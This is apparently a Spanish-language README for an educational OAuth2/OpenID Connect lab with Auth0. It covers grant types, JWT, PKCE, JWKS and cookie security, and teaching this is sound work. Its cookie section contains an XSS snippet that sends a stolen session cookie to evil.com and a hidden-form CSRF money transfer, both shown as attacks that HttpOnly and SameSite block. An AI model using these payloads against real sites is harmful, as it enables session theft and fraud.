







# oauth-auth0-lab

Monorepo educativo que contiene varios escenarios prácticos de OAuth2 / OpenID Connect usando Auth0.

## Objetivo del laboratorio

Proveer un conjunto de ejemplos y ejercicios reproducibles para entender y comparar flujos de autorización (Authorization Code, Authorization Code + PKCE, Implicit, Resource Owner Password Credentials y Client Credentials). Cada escenario incluye un backend y/o frontend mínimo, variables de entorno de ejemplo y un README propio con pasos para ejecutar y probar el flujo contra un tenant de Auth0.

El laboratorio está pensado para estudiantes y desarrolladores que quieran:
- Ver la diferencia entre flujos con y sin usuario.
- Entender seguridad: firma de tokens (RS256), validación con JWKS, scopes y audiencias.
- Probar patrones de arquitectura (BFF, SPA + RS, M2M).

## Arquitectura OAuth 2.0 - Visión General



## Fundamentos Teóricos

### 🔐 OAuth 2.0 Framework

OAuth 2.0 (RFC 6749) es un **framework de autorización** que permite a aplicaciones de terceros obtener acceso limitado a servicios HTTP, ya sea en nombre del propietario del recurso o en nombre de la propia aplicación.

#### Roles Fundamentales

| Rol | Descripción | Ejemplo |
|-----|-------------|---------|
| **Resource Owner** | Entidad que puede otorgar acceso a un recurso protegido | Usuario final |
| **Client** | Aplicación que solicita acceso a recursos protegidos | Web App, Mobile App, SPA |
| **Authorization Server** | Servidor que autentica al Resource Owner y emite tokens | Auth0, Okta, Keycloak |
| **Resource Server** | Servidor que hostea recursos protegidos | API REST, Microservicio |

#### Flujos de Autorización (Grant Types)



## 📋 Casos de Uso por Escenario

### Cuándo usar cada flujo OAuth 2.0

| Escenario | Tipo de Aplicación | Casos de Uso Reales | Industria/Dominio | Ventajas Clave |
|-----------|-------------------|---------------------|-------------------|----------------|
| **Authorization Code** | Web Apps con backend | • Aplicaciones empresariales<br/>• Portales de clientes<br/>• E-commerce con checkout<br/>• Banking/Fintech apps<br/>• CRM/ERP sistemas | • Banca y seguros<br/>• E-commerce<br/>• Salud (HIPAA)<br/>• Gobierno<br/>• Enterprise SaaS | • Máxima seguridad<br/>• Tokens nunca en browser<br/>• Soporta MFA complejo<br/>• Auditoría completa |
| **Authorization Code + PKCE** | SPAs y Mobile Apps | • React/Vue/Angular SPAs<br/>• Progressive Web Apps<br/>• Apps móviles nativas<br/>• Aplicaciones Ionic/Cordova<br/>• Desktop apps (Electron) | • Redes sociales<br/>• Apps de productividad<br/>• Streaming media<br/>• Gaming platforms<br/>• IoT dashboards | • Seguro para clientes públicos<br/>• UX fluida<br/>• Soporte offline<br/>• Cross-platform |
| **Client Credentials** | APIs y Servicios | • Microservicios internos<br/>• Jobs de ETL/batch<br/>• APIs de terceros<br/>• CI/CD pipelines<br/>• Webhook processors<br/>• Monitoring systems | • Cloud computing<br/>• DevOps/Infrastructure<br/>• Data analytics<br/>• Payment processing<br/>• Supply chain | • Automatización completa<br/>• Escalabilidad alta<br/>• Sin intervención humana<br/>• Performance óptimo |
| **Implicit** ⚠️ | SPAs Legacy | • ❌ **NO USAR**<br/>• Solo para migración<br/>• Aplicaciones muy antiguas<br/>• Sistemas sin PKCE support | • Legacy systems<br/>• Aplicaciones pre-2019<br/>• Sistemas con CORS limitado | • ⚠️ **DEPRECADO**<br/>• Migrar a PKCE<br/>• Solo uso educativo |
| **Resource Owner Password** ❌ | Sistemas Legacy | • ❌ **NO USAR**<br/>• Migración temporal<br/>• Apps móviles muy antiguas<br/>• Sistemas mainframe legacy | • Banking legacy<br/>• Sistemas gubernamentales<br/>• Infrastructure antigua | • ❌ **DEPRECADO**<br/>• Solo migración temporal<br/>• Alta vulnerabilidad |

### 🎯 Matriz de Decisión por Contexto

| Tu Situación | Flujo Recomendado | Justificación |
|--------------|-------------------|---------------|
| **Desarrollando nueva web app con React + Node.js** | Authorization Code + PKCE | SPA moderna, máxima seguridad para clientes públicos |
| **Web app tradicional con server-side rendering** | Authorization Code | Cliente confidencial, máximo control de seguridad |
| **App móvil iOS/Android nativa** | Authorization Code + PKCE | Cliente público, soporte para biometrics y deep links |
| **Microservicio que consume otra API** | Client Credentials | M2M, sin usuario, automatización completa |
| **Dashboard admin con autenticación compleja** | Authorization Code | Requiere MFA, audit trails, session management |
| **API pública para desarrolladores** | Client Credentials | Third-party integrations, rate limiting, scopes |
| **Progressive Web App (PWA)** | Authorization Code + PKCE | Híbrido web/mobile, offline capability |
| **Sistema legacy que NO puede usar redirects** | ⚠️ Evaluar migración | Considerar proxy/gateway pattern |

### 🏭 Casos de Uso por Industria

#### 🏦 **Fintech/Banking**
```
Authorization Code (Web Banking) + Client Credentials (Core Banking APIs)
├── Portal de clientes → Authorization Code (BFF pattern)
├── Mobile banking → Authorization Code + PKCE  
├── APIs de pagos → Client Credentials
└── Sistemas internos → Client Credentials + mTLS
```

#### 🛒 **E-commerce**
```
Authorization Code + PKCE (Customer Apps) + Client Credentials (Backend)
├── Tienda online → Authorization Code + PKCE
├── Mobile app → Authorization Code + PKCE
├── Inventory APIs → Client Credentials
└── Payment processing → Client Credentials
```

#### 🏥 **Healthcare (HIPAA Compliance)**
```
Authorization Code (Maximum Security) + Client Credentials (Interoperability)
├── Patient portal → Authorization Code (audit compliant)
├── EMR systems → Authorization Code + SMART on FHIR
├── HL7 FHIR APIs → Client Credentials
└── Medical devices → Client Credentials + device certs
```

#### ☁️ **Cloud/SaaS Platforms**
```
Multi-tenant con todos los flujos según cliente
├── Admin dashboard → Authorization Code
├── Customer SPAs → Authorization Code + PKCE
├── Mobile apps → Authorization Code + PKCE
├── APIs públicas → Client Credentials
└── Webhooks → Client Credentials
```

### 🔄 Patrones de Migración

| Desde | Hacia | Estrategia | Timeline |
|-------|-------|------------|----------|
| **Implicit** | Authorization Code + PKCE | Feature flag, gradual rollout | 3-6 meses |
| **ROPC** | Authorization Code + PKCE | User education, proxy pattern | 6-12 meses |
| **Custom auth** | Authorization Code | Identity federation, SSO | 12+ meses |
| **Session-based** | OAuth 2.0 | Hybrid mode, gradual migration | 6-18 meses |

### 🎫 JSON Web Tokens (JWT)

JWT (RFC 7519) es un estándar para transmitir información de forma segura entre partes como un objeto JSON compacto y autocontenido.

#### Estructura de un JWT

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.signature
├─────────── Header ──────────┤├────────────── Payload ─────────────┤├─ Signature ─┤
```

#### Componentes del JWT

**1. Header**
```json
{
  "alg": "RS256",     // Algoritmo de firma
  "typ": "JWT",       // Tipo de token
  "kid": "abc123"     // Key ID para JWKS
}
```

**2. Payload (Claims)**
```json
{
  // Claims registrados (RFC 7519)
  "iss": "https://auth0-domain.auth0.com/",  // Issuer
  "aud": "https://api.example.com",          // Audience
  "sub": "user123",                          // Subject
  "iat": 1635724800,                         // Issued At
  "exp": 1635728400,                         // Expiration
  "nbf": 1635724800,                         // Not Before
  
  // Claims públicos
  "scope": "read:users write:posts",
  "permissions": ["read:users", "admin"],
  
  // Claims privados
  "tenant_id": "acme-corp",
  "department": "engineering"
}
```

**3. Signature**
```javascript
// Para RS256 (Asymmetric)
signature = RSA-SHA256(
  base64urlEncode(header) + "." + base64urlEncode(payload),
  private_key
)

// Verificación con clave pública
verify(signature, public_key) // true/false
```

#### Algoritmos de Firma

| Algoritmo | Tipo | Descripción | Uso Recomendado |
|-----------|------|-------------|-----------------|
| **HS256** | Symmetric | HMAC SHA-256 | APIs internas, shared secret |
| **RS256** | Asymmetric | RSA SHA-256 | Distribución pública, microservicios |
| **ES256** | Asymmetric | ECDSA SHA-256 | Performance crítico, IoT |

#### Validación de JWT



### 🆔 OpenID Connect (OIDC)

OpenID Connect es una capa de **identidad** construida sobre OAuth 2.0, que añade autenticación al framework de autorización.

#### OAuth 2.0 vs OpenID Connect



#### ID Token vs Access Token

| Aspecto | ID Token | Access Token |
|---------|----------|--------------|
| **Propósito** | Identidad del usuario | Autorización para APIs |
| **Formato** | Siempre JWT | JWT u opaco |
| **Audiencia** | Cliente (aplicación) | Resource Server (API) |
| **Contiene** | Info del usuario | Scopes y permisos |
| **Validación** | Cliente valida | API valida |
| **Lifetime** | Corto (1 hora) | Configurable |

#### Claims Estándar en ID Token

```json
{
  // Claims OIDC Core
  "sub": "auth0|507f1f77bcf86cd799439011",
  "name": "Jane Doe",
  "given_name": "Jane",
  "family_name": "Doe",
  "middle_name": "Michelle",
  "nickname": "Jane",
  "preferred_username": "jane.doe",
  "profile": "https://example.com/jane.doe",
  "picture": "https://example.com/jane.doe/avatar.jpg",
  "website": "https://janedoe.com",
  "email": "jane.doe@example.com",
  "email_verified": true,
  "gender": "female",
  "birthdate": "1975-12-15",
  "zoneinfo": "America/Argentina/Buenos_Aires",
  "locale": "es-AR",
  "phone_number": "+54 11 1234 5678",
  "phone_number_verified": false,
  "address": {
    "country": "Argentina"
  },
  "updated_at": 1635724800,
  
  // Claims de seguridad
  "iss": "https://example.auth0.com/",
  "aud": "client_id_123",
  "iat": 1635724800,
  "exp": 1635728400,
  "nonce": "abc123xyz",
  "at_hash": "hash_of_access_token"
}
```

### 🛡️ PKCE (Proof Key for Code Exchange)

PKCE (RFC 7636) es una extensión de OAuth 2.0 que proporciona protección adicional para clientes públicos.

#### ¿Por qué necesitamos PKCE?



#### Implementación de PKCE

**1. Generar Code Verifier**
```javascript
// Code verifier: string aleatorio de 43-128 caracteres
const codeVerifier = base64urlEncode(crypto.randomBytes(32));
// Ejemplo: "dBjftJeZ4CVP-mB92K27uhbUJU1p1r_wW1gFWFOEjXk"
```

**2. Calcular Code Challenge**
```javascript
// Método S256 (recomendado)
const codeChallenge = base64urlEncode(
  crypto.createHash('sha256')
    .update(codeVerifier)
    .digest()
);

// Método plain (solo para testing)
const codeChallenge = codeVerifier;
```

**3. Authorization Request**
```http
GET /authorize?
  response_type=code&
  client_id=abc123&
  redirect_uri=https://app.com/callback&
  scope=openid profile&
  code_challenge=E9Melhoa2OwvFrEMTJguCHaoeK1t8URWbuGJSstw-cM&
  code_challenge_method=S256&
  state=xyz789&
  nonce=abc456
```

**4. Token Exchange**
```http
POST /oauth/token
Content-Type: application/x-www-form-urlencoded

grant_type=authorization_code&
code=def456&
client_id=abc123&
code_verifier=dBjftJeZ4CVP-mB92K27uhbUJU1p1r_wW1gFWFOEjXk&
redirect_uri=https://app.com/callback
```

### 🔧 JSON Web Key Set (JWKS)

JWKS permite la distribución segura de claves públicas para verificar tokens JWT.

#### Estructura de JWKS

```json
{
  "keys": [
    {
      "kty": "RSA",
      "use": "sig",
      "kid": "2011-04-29",
      "x5t": "NjVBRjY5MDlCMUIwNzU4RTA2QzZFMDQ4QzQ2MDAyQjVDNjk1RTM2Qg",
      "n": "0vx7agoebG...",
      "e": "AQAB",
      "x5c": ["MIIDQjCCAiqgAwIBAgIGATz/FuLiMA0GCSqGSIb3DQEBBQUAMGIxCzAJBgNVBAYTAlVTMQswCQYDVQQIEwJDTzEPMA0GA1UEBxMGRGVudmVyMRwwGgYDVQQKExNQaW5nIElkZW50aXR5IENvcnAxFzAVBgNVBAMTDkJyaWFuIENhbXBiZWxsMB4XDTE0MDIxODIxNDI1OVoXDTI0MDIxODIxNDI1OVowYjELMAkGA1UEBhMCVVMxCzAJBgNVBAgTAkNPMQ8wDQYDVQQHEwZEZW52ZXIxHDAaBgNVBAoTE1BpbmcgSWRlbnRpdHkgQ29ycDEXMBUGA1UEAxMOQnJpYW4gQ2FtcGJlbGwwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDS/Ht6ih4EbLN"]
    }
  ]
}
```

#### Uso de JWKS en Validación



### 🔒 Mejores Prácticas de Seguridad

#### Configuración de Tokens

| Configuración | Recomendación | Justificación |
|---------------|---------------|---------------|
| **Access Token Lifetime** | 15-60 minutos | Limita exposición en caso de compromiso |
| **Refresh Token Rotation** | Habilitado | Detecta uso concurrente/robo |
| **ID Token Lifetime** | 10-60 minutos | Solo para autenticación inicial |
| **Algoritmo de firma** | RS256 | Permite verificación distribuida |
| **HTTPS Only** | Obligatorio | Protege tokens en tránsito |

#### Headers de Seguridad

```http
# Respuestas del Authorization Server
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
X-XSS-Protection: 1; mode=block
Referrer-Policy: strict-origin-when-cross-origin

# Requests a APIs
Authorization: Bearer eyJ...
Content-Type: application/json
User-Agent: MyApp/1.0.0
```

### 🍪 Seguridad de Cookies: HttpOnly y SameSite

#### Resumen Ejecutivo

Las cookies con atributos `HttpOnly` y `SameSite` son fundamentales en el patrón BFF (Backend-for-Frontend) porque proporcionan **protección automática** contra dos de los ataques más comunes:

- **HttpOnly** → Protege contra **XSS** (Cross-Site Scripting)
- **SameSite** → Protege contra **CSRF** (Cross-Site Request Forgery)

#### Comparación de Vulnerabilidades

| Tipo Cookie | XSS Vulnerability | CSRF Vulnerability | Recomendación |
|-------------|-------------------|-------------------|---------------|
| **Normal** | ❌ `document.cookie` expone tokens | ❌ Enviada en todos los requests | 🚫 Nunca usar |
| **HttpOnly** | ✅ JavaScript no puede acceder | ❌ Aún enviada cross-site | 🔶 Mejor, pero incompleto |
| **SameSite=Lax** | ❌ JavaScript puede acceder | ✅ No enviada desde otros sitios | 🔶 Mejor, pero incompleto |
| **HttpOnly + SameSite** | ✅ Protegida de scripts | ✅ Protegida de CSRF | ✅ **Configuración óptima** |

#### Ejemplos de Ataques Mitigados

**XSS Attack Prevention:**
```javascript
// 🕵️ Script malicioso inyectado en la página
<script>
  // ❌ Sin HttpOnly: Este código roba la sesión
  const sessionToken = document.cookie
    .split(';')
    .find(c => c.includes('session='))
    ?.split('=')[1];
  
  fetch('https://evil.com/steal', {
    method: 'POST', 
    body: sessionToken
  });
  
  // ✅ Con HttpOnly: document.cookie no incluye cookies HttpOnly
  console.log(document.cookie); // "theme=dark; lang=es" (solo cookies no-HttpOnly)
</script>
```

**CSRF Attack Prevention:**
```html
<!-- 🕵️ Página maliciosa en evil.com -->
<form action="https://mybank.com/transfer" method="POST">
  <input type="hidden" name="to" value="attacker@evil.com">
  <input type="hidden" name="amount" value="10000">
</form>

<script>
  // ❌ Sin SameSite: La cookie de sesión se envía automáticamente
  document.forms[0].submit();
  
  // ✅ Con SameSite=Lax: La cookie NO se envía desde evil.com
  // Resultado: 401 Unauthorized
</script>
```

---

**Nota importante:** Este laboratorio está diseñado con fines educativos. Para implementaciones de producción, siempre consulta las últimas mejores prácticas de seguridad y la documentación oficial de OAuth 2.0, OpenID Connect y tu proveedor de identidad.
```

## Escenarios incluidos

- `authorization-code/` — Implementación completa del flujo Authorization Code para un cliente confidencial (BFF). Incluye backend que maneja el intercambio de código y un frontend mínimo.
- `authorization-code-pkce/` — Scaffolding para Authorization Code + PKCE (SPA + Resource Server). Muestra el uso de PKCE para clientes públicos.
- `implicit/` — Scaffolding que muestra el flujo Implicit (deprecated) para comparación y fines educativos.
- `resource-owner-password/` — Scaffolding para ROPC (Resource Owner Password Credentials) con ejemplos de backend y frontend (uso educativo, no recomendado en producción).
- `client-credentials/` — Implementación para Machine-to-Machine (Client Credentials). Contiene un Caller service (confidencial), Resource Server y una UI de operador que dispara la llamada M2M.

## Matriz de Comparación de Flujos

| Aspecto | Authorization Code | Auth Code + PKCE | Client Credentials | Implicit | ROPC |
|---------|-------------------|------------------|-------------------|----------|------|
| **Tipo de Cliente** | Confidencial | Público | Confidencial | Público | Cualquiera |
| **Usuario Requerido** | ✅ Sí | ✅ Sí | ❌ No | ✅ Sí | ✅ Sí |
| **Redirection** | ✅ Sí | ✅ Sí | ❌ No | ✅ Sí | ❌ No |
| **Client Secret** | ✅ Requerido | ❌ No aplica | ✅ Requerido | ❌ No aplica | Opcional |
| **PKCE** | 🔶 Opcional | ✅ Obligatorio | ❌ No aplica | ❌ No soportado | ❌ No aplica |
| **Refresh Tokens** | ✅ Sí | ✅ Sí | ❌ No necesario | ❌ No recomendado | ✅ Sí |
| **Seguridad** | 🟢 Alta | 🟢 Alta | 🟢 Alta | 🟡 Media | 🔴 Baja |
| **Estado Actual** | ✅ Recomendado | ✅ Recomendado | ✅ Recomendado | ⚠️ Deprecado | ❌ Deprecado |

## Estructura general

Cada subcarpeta contiene su propio `README.md`, `backend/` y/o `frontend/` según aplique, junto con un `.env.example` para configurar el tenant de Auth0.

### Configuración Inicial

Antes de ejecutar los ejemplos:

1. **Copia los archivos de configuración:**
   ```bash
   # Para cada escenario
   cp .env.example .env
   ```

2. **Completa las variables de Auth0:**
   - `AUTH0_DOMAIN`: Tu dominio de Auth0 (ej: `dev-abc123.us.auth0.com`)
   - `AUTH0_CLIENT_ID`: Client ID de tu aplicación
   - `AUTH0_CLIENT_SECRET`: Client Secret (solo para clientes confidenciales)
   - `AUTH0_AUDIENCE`: Identifier de tu API en Auth0
   - `API_PORT`: Puerto donde correrá tu API (ej: `4001`)

3. **Instala dependencias:**
   ```bash
   # Backend
   cd escenario/backend
   npm install
   
   # Frontend (si aplica)
   cd ../frontend  
   npm install
   ```

### Orden Recomendado de Aprendizaje



---

**Nota importante:** Este laboratorio está diseñado con fines educativos. Para implementaciones de producción, siempre consulta las últimas mejores prácticas de seguridad y la documentación oficial de OAuth 2.0, OpenID Connect y tu proveedor de identidad.